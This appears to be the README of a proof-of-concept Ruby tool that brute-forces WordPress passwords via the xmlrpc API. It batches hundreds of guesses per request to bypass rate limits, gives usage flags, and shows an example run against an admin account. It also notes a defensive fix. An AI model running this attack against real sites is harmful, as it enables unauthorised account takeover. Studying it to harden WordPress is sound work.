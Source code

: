 # Wordpress Bruteforcer
This is a rough POC that demonstrates the recent amplified bruteforce attack on wordpress based website via `xmlrpc` API. 

# Issue
This particular vulnerability allows an attacker to bypass webserver rate limits. Instead of the attacker sending one query with a one password, he or she can now send one query with 500 passwords via `xmlrpc` API. 

##### Classic Bruteforce
```
Attacker                          WP Server
|----password1---------------------------->
<---------------------------------nope----|
|----password2---------------------------->
<---------------------------------nope----|
|----password3---------------------------->
<---------------------------rate-limit----|
|----password4---------------------------->
<---------------------------rate-limit----|
|----password5---------------------------->
<---------------------------rate-limit----|
|----password6---------------------------->
<----------------------------------yes----|
```

##### Amplified Bruteforce
```
Attacker                          WP Server
|----p1,p2,p3,p4,p5,p6-------------------->
<---------nope,nope,nope,nope,nope,yes----|
```

# Fix 
Block the `xmlrpc.php` access from the configuration files like `.htaccess` or `nginx.conf`

# Usage
```
ruby ./wpbrute-rpc.rb --url=[...] --user=[...] --count=[...] --list=[...]
   --url     The wordpress RPC endpoint.
   --user    The username you would like to bruteforce.
   --count   The number of attempts per RPC request.
   --list    The path to your password dictionary.

== More Info ==
* Ensure that the website is active, has the correct protocol (http or https), and ends in 'xmlrpc.php'.
* The wordlist should just be a list of word seperated by the new-line character.
* If you get a 'Parse error' then your count is too high.
```

##### Live Example
```
bundle install
ruby ./wpbrute-rpc.rb --url="https://wp.example.com/xmlrpc.php" --user=admin --count=500 --list=./500-worst-passwords.txt

Password found!
> admin

```
